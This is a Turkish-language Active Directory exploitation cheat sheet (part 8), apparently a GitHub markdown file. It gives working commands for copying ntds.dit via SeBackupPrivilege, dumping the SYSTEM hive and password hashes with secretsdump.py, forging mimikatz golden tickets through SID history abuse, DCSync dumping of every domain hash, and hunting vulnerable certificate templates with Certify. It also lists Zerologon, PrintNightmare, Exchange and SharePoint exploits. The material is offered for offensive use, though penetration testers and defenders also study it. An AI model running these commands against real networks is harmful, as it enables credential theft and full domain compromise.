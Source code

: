 # Active Directory Exploitation Cheat Sheet - Bölüm 8

## Shadow Copy İşlemleri

### Diskshadow ile Shadow Copy Oluşturma:
```bash
diskshadow /s script.txt
```

### Shadow Copy'ye Erişim:
- **SeBackupPrivilege Kullanarak ntds.dit Dosyasını Kopyalama:**
```powershell
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll

# SeBackupPrivilege Etkin mi Kontrol Etme:
Get-SeBackupPrivilege

# Eğer Değilse Etkinleştirme:
Set-SeBackupPrivilege

# ntds.dit Dosyasını Kopyalama:
Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\<PathToSave>\ntds.dit -Overwrite
```

### SYSTEM Hive'i Dump Etme:
```bash
reg save HKLM\SYSTEM c:\temp\system.hive
```

### Lokalde İşleme:
- **ntds.dit ve SYSTEM Hive Dosyalarını Kopyalama:**
  Impacket'ten smbclient.py veya başka bir araç kullanarak kopyalayabilirsiniz.

- **Hash Dump Etmek için secretsdump.py Kullanma:**
  ```bash
  secretsdump.py <Domain>/<User>@<Target>
  ```

- **PTH ile Domain Admin Erişimi Sağlama:**
  PsExec veya diğer araçları kullanabilirsiniz.

## Exchange İstismarı

### Exchange Üzerinden DA Yetkisi:
- **CVE-2020-0688:** Exchange Sunucularındaki bir güvenlik açığını kullanarak DA yetkisi.
- **PrivExchange:** Exchange'i suistimal ederek Domain Admin yetkisi.

## Yazıcı Hataları ile Yetki Yükseltme

### Printer Server Bug ile Domain Admin:
- **NetNTLM to Silver Ticket:** Yazıcı hatalarını kullanarak yetki yükseltme.

## ACL'lerin Suistimali

### Active Directory ACL'leri Kullanarak Yetki Yükseltme:
- **aclpwn.py veya Invoke-ACLPwn Kullanımı:** ACL manipülasyonları ile DA yetkisi.

## IPv6 Suistimali

### IPv4 Ağlarını IPv6 ile Ele Geçirme:
- **mitm6 Aracı Kullanımı:** IPv6'ya geçiş yaparak IPv4 ağlarını suistimal etme.

## SID History Abuse

### Açıklama:
Eğer bir forest'ın child domain'ini ele geçirirsek ve SID filtering devre dışıysa, SID History alanını kullanarak root domain'in Domain Admin yetkilerini elde edebiliriz.

### İstismar Örneği:
- **Mevcut Domain'in SID'ini Alma:**
  ```powershell
  Get-DomainSID -Domain current.root.domain.local
  ```

- **Root Domain'in SID'ini Alma:**
  ```powershell
  Get-DomainSID -Domain root.domain.local
  ```

- **Enterprise Admins SID Oluşturma:**
  Format: `RootDomainSID-519`

- **Golden Ticket Oluşturma:**
  ```mimikatz
  kerberos::golden /user:Administrator /domain:current.root.domain.local /sid:<CurrentDomainSID> /krbtgt:<krbtgtHash> /sids:<EnterpriseAdminsSID> /startoffset:0 /endin:600 /renewmax:10080 /ticket:\path\to\ticket\golden.kirbi
  ```

- **Golden Ticket'i Belleğe Enjekte Etme:**
  ```mimikatz
  kerberos::ptt \path\to\ticket\golden.kirbi
  ```

- **Root Domain'in DC'sine Erişim:**
  ```bash
dir \\dc.root.domain.local\C$
  ```

- **DCsync ile Hash Dump Etme:**
  ```mimikatz
  lsadump::dcsync /domain:root.domain.local /all
  ```

## SharePoint İstismarı

- **CVE-2019-0604:** RCE İstismarı.
- **CVE-2019-1257:** BDC deserialization ile kod çalıştırma.
- **CVE-2020-0932:** TypeConverters kullanarak RCE.

## Zerologon

### Açıklama:
Zerologon, kimlik doğrulama gerektirmeyen bir DC ele geçirme açığıdır.
- **SharpZeroLogon:** Zerologon exploitinin C# implementasyonu.
- **Invoke-ZeroLogon:** Powershell ile Zerologon exploit.
- **Zer0Dump:** Impacket kütüphanesiyle Python'da Zerologon exploit.

## PrintNightmare

### Açıklama:
- **CVE-2021-34527:** PrintNightmare açığının detayları.
- **Impacket Implementasyonu:** Güvenilir bir PrintNightmare PoC.
- **C# Implementasyonu:** PrintNightmare'ın C# ile yazılmış PoC'si.

## Active Directory Sertifika Hizmetleri

### Güvenlik Açığı Olan Sertifika Şablonlarını Kontrol Etme:
- **Certify Kullanımı:**
  ```bash
  .\Certify.exe find /vulnerable /quiet
  ```

- **Not:** Certify, Cobalt Strike'ın `execute-assembly` komutuyla çalıştırılabilir.
